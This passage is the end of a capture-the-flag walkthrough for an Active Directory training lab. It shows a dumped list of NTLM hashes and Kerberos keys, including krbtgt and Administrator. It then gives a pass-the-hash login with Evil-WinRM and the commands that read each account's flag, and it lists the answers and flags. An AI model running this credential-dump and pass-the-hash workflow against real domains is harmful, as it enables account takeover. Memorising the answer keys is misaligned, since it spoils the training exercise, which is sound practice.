spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:789c25228cf453618013bb1f19335794:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:d85043fbda197146fb499e5e0fd85e278eefbacef35d99abdb3106c81a46b74f
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:d608b80bf2bc1f8848877e50bcf78777
ATTACKTIVEDIREC$:des-cbc-md5:6bc479896e4fe346
[*] Cleaning up...
```

`DRSUAPI`

2. What is the Administrators NTLM hash?

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`0e0363213e37b94221497260b0bcb4fc`

3. What method of attack could allow us to authenticate as the user without the password?

`pass the hash`

4. Using a tool called Evil-WinRM what option will allow us to use a hash?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ evil-winrm -i 10.10.225.245 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

`-H`

## Task 8 Flags

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my [blog post](https://blog.spookysec.net/kerberos-abuse/)!

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ..\..\
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                backup
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                svc-admin


*Evil-WinRM* PS C:\Users> dir svc-admin\Desktop


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


*Evil-WinRM* PS C:\Users> type svc-admin\Desktop\user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
*Evil-WinRM* PS C:\Users> dir backup\Desktop


    Directory: C:\Users\backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:19 PM             26 PrivEsc.txt


*Evil-WinRM* PS C:\Users> type backup\Desktop\PrivEsc.txt
TryHackMe{B4ckM3UpSc0tty!}
```

1. svc-admin

`TryHackMe{K3rb3r0s_Pr3_4uth}`

2. backup

`TryHackMe{B4ckM3UpSc0tty!}`

3. Administrator

`TryHackMe{4ctiveD1rectoryM4st3r}`
